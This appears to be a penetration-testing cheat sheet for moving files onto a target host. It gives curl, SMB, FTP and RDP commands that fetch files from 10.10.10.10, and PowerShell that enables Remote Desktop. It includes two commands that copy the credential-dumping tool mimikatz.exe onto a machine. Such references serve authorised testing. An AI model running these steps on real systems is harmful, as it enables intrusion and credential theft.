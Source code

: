 Links:

https://staheri.com/my-blog/2013/january/vbscript-download-file-from-url/


## cURL

`curl -o /tmp/info.txt http://10.10.10.10:80/info.txt`


## Remote Desktop

### Start Remote Desktop in Windows PowerShell

`Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0` 
`Enable-NetFirewallRule -DisplayGroup "Remote Desktop"` 

To end Remote Desktop: 
`Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 1` 

### rdesktop

`rdesktop 10.10.10.10 -r disk:linux='/home/user/rdesktop/files'`

### tsclient.exe

![rdp](assets/rdp.png)


```
copy \\tsclient\c\temp\mimikatz.exe .
```


## SMB

`smbclient //10.10.10.10/share -U username -W domain`

`net use Q: \\10.10.10.10\share`

`xcopy \\10.10.10.10\share\mimikatz.exe mimikatz.exe`

`pushd \\10.10.10.10\share`

`mklink /D share \\10.10.10.10\share`


## FTP

> ftp -s:script.txt

```
open 10.10.10.10
anonymous
anonymous
lcd c:\uploads
get info.txt
quit
```
